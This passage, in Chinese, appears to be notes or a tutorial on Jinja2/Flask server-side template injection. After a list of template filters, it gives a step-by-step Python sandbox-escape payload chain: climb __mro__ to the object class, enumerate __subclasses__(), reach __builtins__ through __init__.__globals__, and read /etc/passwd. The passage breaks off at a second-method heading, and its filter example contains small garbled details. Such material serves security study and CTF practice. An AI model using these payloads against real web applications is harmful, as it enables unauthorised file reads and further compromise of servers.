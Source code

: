 ```
abs()：返回一个数值的绝对值；
first()：返回一个序列的第一个元素；
last()：返回一个序列的最后一个元素；
format(value,arags,*kwargs)：格式化字符串。比如：{{ "%s" - "%s"|format('Hello?',"Foo!") }}将输出：Helloo? - Foo!
length()：返回一个序列或者字典的长度；
sum()：返回列表内数值的和；
sort()：返回排序后的列表；
default(value,default_value,boolean=false)：如果当前变量没有值，则会使用参数中的值来代替。示例：name|default('xiaotuo')----如果name不存在，则会使用xiaotuo来替代。boolean=False默认是在只有这个变量为undefined的时候才会使用default中的值，如果想使用python的形式判断是否为false，则可以传递boolean=true。也可以使用or来替换。
length()：返回字符串的长度，别名是count。
```

##### 获取基本类：

```
''.__class__.__mro__[2]
{}.__class__.__bases__[0]
().__class__.__bases__[0]
[].__class__.__bases__[0]
request.__class__.__mro__[8] #针对jinjia2/flask为[9]适用
```

##### 获取基本类后，继续向下获取基本类(object)的子类：

```
object.__subclasses__()
```

找到重载过的`__init__`类（在获取初始化属性后，带wrapper的说明没有重载，寻找不带wrapper的）：

```
>>> ''.__class__.__mro__[2].__subclasses__()[99].__init__
<slot wrapper '__init__' of 'object' objects>

>>> ''.__class__.__mro__[2].__subclasses__()[59].__init__
<unbound method WarningMessage.__init__>
```

##### 查看其引用`__builtins__`：

> **builtins**即是引用，Python程序一旦启动，它就会在程序员所写的代码没有运行之前就已经被加载到内存中了,而对于**builtins**却不用导入，它在任何模块都直接可见，所以这里直接调用引用的模块

```
''.__class__.__mro__[2].__subclasses__()[59].__init__.__globals__['__builtins__']
```

这里会返回dict类型，寻找keys中可用函数，直接调用即可，使用keys中的file以实现读取文件的功能：

```
''.__class__.__mro__[2].__subclasses__()[59].__init__.__globals__['__builtins__']['file']('/etc/passwd').read()
```

#### 方法二

